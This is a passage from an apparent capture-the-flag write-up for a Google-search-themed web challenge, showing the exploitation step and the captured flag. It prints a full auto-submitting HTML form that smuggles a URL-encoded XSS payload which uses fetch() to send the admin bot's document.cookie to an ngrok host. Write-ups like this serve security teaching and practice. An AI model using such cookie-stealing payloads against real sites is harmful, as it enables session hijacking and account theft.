 ```php
        frm.submit();
    </script>
</html>
```

## Exploiting

Let's guarantee we're not a bot to our local instance and click on `Google Seach` to POST and save the captcha response.

![](https://i.imgur.com/liioQFa.png)

Then send our payload with the poisoned form to the Admin Bot.

![](https://i.imgur.com/qZT8o8R.png)

The following complete payload is generated to the Admin Bot by the `payload.php`.

```html
<html>
    <form action="http://google.us.ctf.so/search.php?q=A%22%3E%3Cscript%3Efetch%28%22http%3A%2F%2Fmy-ngrok-url.ngrok.io%2Fflag%3F%3D%22%2BencodeURIComponent%28document.cookie%29%2C+%7B%22mode%22%3A+%22no-cors%22%7D%29%3B%3C%2Fscript%3E%3Cinput+class%3D%22lst%22+value%3D%22B" method="POST" name="f" id="search">
        <input type="text" name="q" dir="ltr" value="something"/>
        <input type="hidden" name="g-recaptcha-response" value="03AGdBq25Rrd4D_AlggGkAW6sNiyTnrkygst42GVEe1j0_aayeH1aoP3euNvk8D76jvX22xjf9nYqnG7UwhHLMW78DTeJ0xIVWpMfztadjH_GBdsPl1CAJnkU0AEbIqDb8KsdyHb1Zin5YdOHbb7qFkkZ8HY7x0mePrbeiQmpOgZ_V63sAuXA7c51FZaVUR6_MQCSSKNInojJSDDygQ_aWIKleEh8Hyx_qzM_YQlwlMEFaojizSqRSFE_dz7O8-PLwUQ7tUiL_2X--NRymsIDVUq_fCM0o6nISmbFs7izgZrS3bIfTVmRsGuQVLdag_2aC_Nv0UF7vI0_ZMKievujJRwvWyonjQWtZHrJesqZMONOZZX9Yb_ZBPnpWvgcC7ILwz1pIRrIhcBQCNHYpjKtfnsUVQpuAujiOMktaGPj48dnY79aQw3Eq6FcT1g09L5XAmaUTRlFTQL4pq51p4C6wl2I9YF_f74FHMY3-v7RaEGtB2ts58NzBZJJ4HJHpyhLrALx3HB_7uddJaJivkMRXaq-LeHlTLBGyrQ"/>
        <input type="hidden" name="btnG" value="Google Search"/>
    </form>

    <script>
        frm = document.getElementById("search");
        frm.submit();
    </script>
</html>
```

Now, relax and wait for our XSS to explode in the Admin Bot and steal his cookies.

![](https://i.imgur.com/DRdO4Vx.png)

**Flag**
```
we{50f71c88-955f-48e0-bb57-6fb070a29bdb@y0U_Ha(K3d_g0Ogl3}
```

## Lessons Learned
